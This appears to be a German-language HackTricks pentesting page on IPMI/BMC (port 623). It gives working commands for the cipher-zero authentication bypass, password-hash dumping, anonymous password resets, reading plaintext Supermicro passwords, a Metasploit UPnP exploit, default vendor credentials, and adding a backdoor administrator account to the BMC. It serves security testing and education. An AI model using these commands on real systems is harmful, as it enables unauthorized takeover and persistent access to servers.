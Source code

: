 # 623/UDP/TCP - IPMI

## 623/UDP/TCP - IPMI

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Grundinformationen

### **Überblick über IPMI**

**[Intelligent Platform Management Interface (IPMI)](https://www.thomas-krenn.com/en/wiki/IPMI_Basics)** bietet einen standardisierten Ansatz für das Remote-Management und die Überwachung von Computersystemen, unabhängig vom Betriebssystem oder dem Stromzustand. Diese Technologie ermöglicht es Systemadministratoren, Systeme aus der Ferne zu verwalten, selbst wenn sie ausgeschaltet oder nicht ansprechbar sind, und ist besonders nützlich für:

- Pre-OS-Boot-Konfigurationen
- Verwaltung des Stromausfalls
- Wiederherstellung von Systemfehlern

IPMI ist in der Lage, Temperaturen, Spannungen, Lüftergeschwindigkeiten und Stromversorgungen zu überwachen, sowie Inventarinformationen bereitzustellen, Hardwareprotokolle zu überprüfen und Warnungen über SNMP zu senden. Für den Betrieb sind eine Stromquelle und eine LAN-Verbindung erforderlich.

Seit seiner Einführung durch Intel im Jahr 1998 wird IPMI von zahlreichen Anbietern unterstützt, was die Remote-Management-Funktionen verbessert, insbesondere mit der Unterstützung von Version 2.0 für serielle Verbindungen über LAN. Zu den Hauptkomponenten gehören:

- **Baseboard Management Controller (BMC):** Der Hauptmikrocontroller für IPMI-Operationen.
- **Kommunikationsbusse und -schnittstellen:** Für interne und externe Kommunikation, einschließlich ICMB, IPMB und verschiedener Schnittstellen für lokale und Netzwerkverbindungen.
- **IPMI-Speicher:** Zum Speichern von Protokollen und Daten.

![https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right](https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right)

**Standardport**: 623/UDP/TCP (Es läuft normalerweise über UDP, kann aber auch über TCP betrieben werden)

## Enumeration

### Entdeckung
```bash
nmap -n -p 623 10.0.0./24
nmap -n-sU -p 623 10.0.0./24
use  auxiliary/scanner/ipmi/ipmi_version
```
Du kannst die **Version** mit folgendem Befehl **identifizieren**:
```bash
use auxiliary/scanner/ipmi/ipmi_version
nmap -sU --script ipmi-version -p 623 10.10.10.10
```
### IPMI-Sicherheitsanfälligkeiten

Im Bereich von IPMI 2.0 wurde von Dan Farmer eine bedeutende Sicherheitsanfälligkeit entdeckt, die eine Schwachstelle durch **Cipher-Typ 0** aufdeckte. Diese Schwachstelle, die detailliert in [Dan Farmers Forschung](http://fish2.com/ipmi/cipherzero.html) dokumentiert ist, ermöglicht unbefugten Zugriff mit jedem Passwort, sofern ein gültiger Benutzer ins Visier genommen wird. Diese Schwäche wurde bei verschiedenen BMCs von Herstellern wie HP, Dell und Supermicro gefunden, was auf ein weit verbreitetes Problem in allen IPMI 2.0-Implementierungen hindeutet.

### **IPMI-Authentifizierungsumgehung über Cipher 0**

Um diese Schwachstelle zu erkennen, kann der folgende Metasploit-Hilfsscanner verwendet werden:
```bash
use auxiliary/scanner/ipmi/ipmi_cipher_zero
```
Die Ausnutzung dieses Fehlers ist mit `ipmitool` möglich, wie unten gezeigt, was das Auflisten und Ändern von Benutzerpasswörtern ermöglicht:
```bash
apt-get install ipmitool # Installation command
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user list # Lists users
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user set password 2 abc123 # Changes password
```
### **IPMI 2.0 RAKP-Authentifizierung Remote-Passwort-Hash-Abfrage**

Diese Schwachstelle ermöglicht die Abfrage von gesalzenen, gehashten Passwörtern (MD5 und SHA1) für jeden vorhandenen Benutzernamen. Um diese Schwachstelle zu testen, bietet Metasploit ein Modul an:
```bash
msf > use auxiliary/scanner/ipmi/ipmi_dumphashes
```
### **IPMI Anonyme Authentifizierung**

Eine Standardkonfiguration in vielen BMCs ermöglicht den "anonymen" Zugriff, der durch leere Benutzername- und Passwortzeichenfolgen gekennzeichnet ist. Diese Konfiguration kann ausgenutzt werden, um die Passwörter von benannten Benutzerkonten mit `ipmitool` zurückzusetzen:
```bash
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user list
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user set password 2 newpassword
```
### **Supermicro IPMI Klartext-Passwörter**

Eine kritische Designentscheidung in IPMI 2.0 erfordert die Speicherung von Klartext-Passwörtern innerhalb von BMCs zu Authentifizierungszwecken. Die Speicherung dieser Passwörter durch Supermicro an Orten wie `/nv/PSBlock` oder `/nv/PSStore` wirft erhebliche Sicherheitsbedenken auf:
```bash
cat /nv/PSBlock
```
### **Supermicro IPMI UPnP Verwundbarkeit**

Die Einbeziehung eines UPnP SSDP-Listeners in die IPMI-Firmware von Supermicro, insbesondere auf UDP-Port 1900, stellt ein erhebliches Sicherheitsrisiko dar. Verwundbarkeiten im Intel SDK für UPnP-Geräte Version 1.3.1, wie in [Rapid7s Offenlegung](https://blog.rapid7.com/2013/01/29/security-flaws-in-universal-plug-and-play-unplug-dont-play) beschrieben, ermöglichen den Root-Zugriff auf das BMC:
```bash
msf> use exploit/multi/upnp/libupnp_ssdp_overflow
```
### Brute Force

**HP randomisiert das Standardpasswort** für sein **Integrated Lights Out (iLO)** Produkt während der Herstellung. Diese Praxis steht im Gegensatz zu anderen Herstellern, die dazu neigen, **statische Standardanmeldeinformationen** zu verwenden. Eine Zusammenfassung der Standardbenutzernamen und -passwörter für verschiedene Produkte ist wie folgt:

- **HP Integrated Lights Out (iLO)** verwendet eine **fabrikmäßig randomisierte 8-Zeichen-Zeichenfolge** als Standardpasswort, was ein höheres Sicherheitsniveau zeigt.
- Produkte wie **Dells iDRAC, IBMs IMM** und **Fujitsus Integrated Remote Management Controller** verwenden leicht zu erratende Passwörter wie "calvin", "PASSW0RD" (mit einer Null) und "admin".
- Ebenso verwenden **Supermicro IPMI (2.0), Oracle/Sun ILOM** und **ASUS iKVM BMC** ebenfalls einfache Standardanmeldeinformationen, wobei "ADMIN", "changeme" und "admin" als ihre Passwörter dienen.


## Accessing the Host via BMC

Der administrative Zugriff auf den Baseboard Management Controller (BMC) eröffnet verschiedene Wege, um auf das Betriebssystem des Hosts zuzugreifen. Ein einfacher Ansatz besteht darin, die KVM-Funktionalität des BMC auszunutzen. Dies kann entweder durch einen Neustart des Hosts zu einer Root-Shell über GRUB (unter Verwendung von `init=/bin/sh`) oder durch das Booten von einer virtuellen CD-ROM, die als Rettungsdiskette festgelegt ist, erfolgen. Solche Methoden ermöglichen eine direkte Manipulation der Festplatte des Hosts, einschließlich der Einfügung von Backdoors, Datenextraktion oder anderer notwendiger Maßnahmen für eine Sicherheitsbewertung. Dies erfordert jedoch einen Neustart des Hosts, was ein erhebliches Manko darstellt. Ohne Neustart ist der Zugriff auf den laufenden Host komplexer und variiert je nach Konfiguration des Hosts. Wenn die physische oder serielle Konsole des Hosts angemeldet bleibt, kann sie leicht über die KVM- oder Serial-over-LAN (sol) Funktionen des BMC über `ipmitool` übernommen werden. Die Erforschung der Ausnutzung gemeinsamer Hardware-Ressourcen, wie dem i2c-Bus und dem Super I/O-Chip, ist ein Bereich, der weitere Untersuchungen erfordert.

## Introducing Backdoors into BMC from the Host

Nach der Kompromittierung eines Hosts, der mit einem BMC ausgestattet ist, kann die **lokale BMC-Schnittstelle genutzt werden, um ein Backdoor-Benutzerkonto einzufügen**, was eine dauerhafte Präsenz auf dem Server schafft. Dieser Angriff erfordert das Vorhandensein von **`ipmitool`** auf dem kompromittierten Host und die Aktivierung der BMC-Treiberunterstützung. Die folgenden Befehle veranschaulichen, wie ein neues Benutzerkonto in das BMC über die lokale Schnittstelle des Hosts injiziert werden kann, was die Notwendigkeit einer Authentifizierung umgeht. Diese Technik ist auf eine Vielzahl von Betriebssystemen anwendbar, einschließlich Linux, Windows, BSD und sogar DOS.
```bash
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)

ipmitool user set name 4 backdoor
ipmitool user set password 4 backdoor
ipmitool user priv 4 4
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)
4  backdoor        true    false      true      ADMINISTRATOR
```
## Shodan

* `port:623`

## References

* [https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/](https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/)

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
